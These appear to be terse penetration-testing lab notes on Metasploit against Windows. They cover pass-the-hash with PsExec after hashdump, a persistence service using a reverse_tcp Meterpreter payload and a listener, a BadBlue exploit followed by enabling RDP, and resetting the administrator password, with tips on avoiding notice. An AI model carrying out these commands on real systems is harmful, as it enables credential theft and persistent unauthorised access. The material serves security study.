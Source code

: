 
## Pass-the-hash PsExec

Demo:
Migrate to lsass
....
`hashdump`

/windows/smb/psexec
`set windows/x64/meterpreter/reverse_tcp`
`set SMBUser Administrator`
`set SMBPass <NTLM hash here>`

### Establish persistence Windows

- keep access even if shutdown/service exploited is down

Demo:
`search platform:windows persistence`

/windows/local/persistence_service
`set service_name <something not sus>`
`set session 1`
`set payload windows/meterpreter/reverse_tcp`
`set LPORT 4444`

Now after killing session 1
`use multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LPORT 4444`
`set LHOST eth1`

Even when the system restarts etc connection can be made after


## Enable RDP on the target

- GUI for desktop cool
- -p338
- disabled by default
- requires admin access to enable

Demo:
badblue enterprise edition
/http/badblue_passthru
`set target BadBlue\ EE\ 2.7\ Universal`

/post/windows/manage/enable_rdp
`set SESSION 1` and optionally set username/password (if the session is not admin)

db_nmap shows port 3389 open
On the session
`shell`
`net users`
Change the admin pwd if u want but will get found (preferably create new user with admin privs)
`net user administrator hacker_123321`
